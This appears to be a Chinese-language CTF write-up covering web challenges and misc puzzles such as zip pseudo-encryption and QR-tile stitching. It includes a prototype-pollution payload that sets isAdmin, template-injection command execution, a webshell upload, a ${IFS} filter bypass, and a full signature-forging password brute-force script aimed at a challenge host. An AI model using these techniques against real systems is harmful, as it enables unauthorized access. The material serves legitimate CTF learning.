


# web

## nest_js


bp进行爆破，得到账号admin,密码password


## 星愿信箱

魔板注入


看有哪些函数


通过 config对象调用 os.popen执行 ```ls /```


发现有flag,cat别屏蔽了，```head /flag```查看


## 多重宇宙日记

注册然后登陆


需要isAdmin状态


更新json

```json
{
  "settings": {
    "__proto__": {
      "isAdmin": true
    }
  }
}
```


## easy_file


放入bp分析


账号和密码先进行了base64编码，然后对=进行url编码


bp进行爆破


进去了


上传一句话，改请求


查看目录


输出fllag.php



## easy_signin

disrsearch扫描网站，发先login界面


看一下源码，将js和一个请求投喂给ai，生成破解脚本

```python
import requests
import hashlib
import time
import sys

def md5(text):
    """计算MD5哈希值"""
    return hashlib.md5(text.encode('utf-8')).hexdigest()

def generate_sign(username, password, timestamp, secret_key):
    """生成签名，模拟前端JavaScript的签名生成逻辑"""
    md5_username = md5(username)
    md5_password = md5(password)
    short_user = md5_username[:6]
    short_pass = md5_password[:6]
    sign_str = f"{short_user}{short_pass}{timestamp}{secret_key}"
    return md5(sign_str)

def crack_password(target_url, username, secret_key, dict_path):
    """执行密码爆破"""
    try:
        # 读取密码字典
        with open(dict_path, 'r', encoding='utf-8') as f:
            passwords = [line.strip() for line in f if line.strip()]
        print(f"字典加载成功，共 {len(passwords)} 个密码")
    except Exception as e:
        print(f"字典读取失败: {e}")
        return
    
    # 准备请求头
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Accept': '*/*',
        'Origin': 'http://node6.anna.nssctf.cn:29799',
        'Referer': 'http://node6.anna.nssctf.cn:29799/login.html',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close'
    }
    
    # 计算用户名的MD5值
    md5_username = md5(username)
    
    # 开始爆破
    total = len(passwords)
    print(f"开始爆破，目标URL: {target_url}，用户: {username}")
    
    for i, password in enumerate(passwords, 1):
        try:
            # 生成当前时间戳（毫秒级）
            timestamp = str(int(time.time() * 1000))
            
            # 生成签名
            sign = generate_sign(username, password, timestamp, secret_key)
            
            # 准备请求数据
            data = {
                'username': md5_username,
                'password': md5(password),
                'timestamp': timestamp
            }
            
            # 添加签名到请求头
            headers['X-Sign'] = sign
            
            # 发送请求
            response = requests.post(target_url, headers=headers, data=data, timeout=10)
            
            # 显示进度
            sys.stdout.write(f"\r进度: {i}/{total} - 正在尝试: {password}")
            sys.stdout.flush()
            
            # 检查响应
            if response.status_code == 200:
                try:
                    json_data = response.json()
                    if json_data.get('code') == 200:  # 根据实际情况调整判断条件
                        print(f"\n\n爆破成功！用户名: {username}，密码: {password}")
                        print(f"MD5(用户名): {md5_username}")
                        print(f"MD5(密码): {md5(password)}")
                        print(f"时间戳: {timestamp}")
                        print(f"签名: {sign}")
                        print(f"响应内容: {response.text}")
                        return password
                except:
                    # 如果响应不是JSON格式，检查响应文本中是否包含成功标志
                    if "success" in response.text.lower() or "欢迎" in response.text:
                        print(f"\n\n爆破成功！用户名: {username}，密码: {password}")
                        print(f"MD5(用户名): {md5_username}")
                        print(f"MD5(密码): {md5(password)}")
                        print(f"时间戳: {timestamp}")
                        print(f"签名: {sign}")
                        print(f"响应内容: {response.text}")
                        return password
            
            # 防止请求过快
            time.sleep(0.1)
            
        except Exception as e:
            print(f"\n请求异常: {e}，继续尝试下一个密码...")
            continue
    
    print("\n\n所有密码尝试完毕，未找到正确密码")
    return None

if __name__ == "__main__":
    # 配置参数 - 根据实际情况修改
    TARGET_URL = 'http://node6.anna.nssctf.cn:29799/login.php'
    USERNAME = 'admin'  # 根据实际情况修改
    SECRET_KEY = 'easy_signin'  # 根据实际情况修改
    
    # 获取字典文件路径
    if len(sys.argv) < 2:
        print("用法: python password_cracker.py <字典文件路径>")
        sys.exit(1)
    
    DICT_PATH = sys.argv[1]
    
    # 执行爆破
    crack_password(TARGET_URL, USERNAME, SECRET_KEY, DICT_PATH)
```


在登录界面中的源码中有个api.js


请求/var/www/html/backup/8e0132966053d4bf8b2dbe4ede25502b.php试试


加上```http://127.0.0.1/```


只允许来自 127.0.0.1 的请求，执行用户传入的命令并返回结果，通过 name 参数控制后续命令执行

对空格进行了过滤，${IFS}进行绕过


发现327a6c4304ad5938eaf0efb6cc3e53dc.php比较特别，访问一下


# Mis

## Cropping

压缩包放入010，发现一偶一奇是伪加密，将50 4B 01 02后面的09 00改为08 00


成功打开压缩包，里面有许多二维码碎片


按照图片名称进行拼接

```python
import os
from PIL import Image

def stitch_images():
    # 获取当前脚本所在目录
    script_dir = os.path.dirname(os.path.abspath(__file__))
    tiles_dir = os.path.join(script_dir, 'tiles')
    
    # 检查tiles目录是否存在
    if not os.path.exists(tiles_dir):
        print(f"错误：找不到tiles目录，请确保'{tiles_dir}'存在。")
        return
    
    # 初始化图片网格和最大坐标
    grid = {}
    max_x = 0
    max_y = 0
    
    # 遍历tiles目录中的所有文件
    for filename in os.listdir(tiles_dir):
        if filename.endswith('.png') and filename.startswith('tile_'):
            # 解析文件名中的坐标
            parts = filename.split('_')
            if len(parts) != 3:
                continue
                
            try:
                x = int(parts[1])
                y = int(parts[2].split('.')[0])
            except ValueError:
                continue
                
            # 更新最大坐标
            if x > max_x:
                max_x = x
            if y > max_y:
                max_y = y
                
            # 存储图片路径
            grid[(x, y)] = os.path.join(tiles_dir, filename)
    
    # 检查是否找到图片
    if not grid:
        print("错误：在tiles目录中未找到符合格式的图片。")
        return
    
    # 确定图片尺寸
    try:
        sample_img = Image.open(next(iter(grid.values())))
        tile_width, tile_height = sample_img.size
        sample_img.close()
    except Exception as e:
        print(f"错误：无法打开样本图片。{e}")
        return
    
    # 创建拼接后的图片
    result_width = (max_y + 1) * tile_width
    result_height = (max_x + 1) * tile_height
    result = Image.new('RGB', (result_width, result_height))
    
    # 拼接图片
    for (x, y), path in grid.items():
        try:
            img = Image.open(path)
            # 计算在结果图片中的位置
            pos_x = x * tile_height
            pos_y = y * tile_width
            # 粘贴图片
            result.paste(img, (pos_y, pos_x))
            img.close()
        except Exception as e:
            print(f"警告：无法处理图片 {path}。{e}")
    
    # 保存结果
    output_path = os.path.join(script_dir, 'stitched_image.png')
    result.save(output_path)
    print(f"拼接完成！结果已保存至 {output_path}")

if __name__ == "__main__":
    stitch_images()    
```

得到完整二维码，扫码得flag


## 灵感菇🍄哩菇哩菇哩哇擦灵感菇灵感菇🍄

USB流量一把梭



进行镜像翻转得压缩包密码868F-83BD-FF


隐写


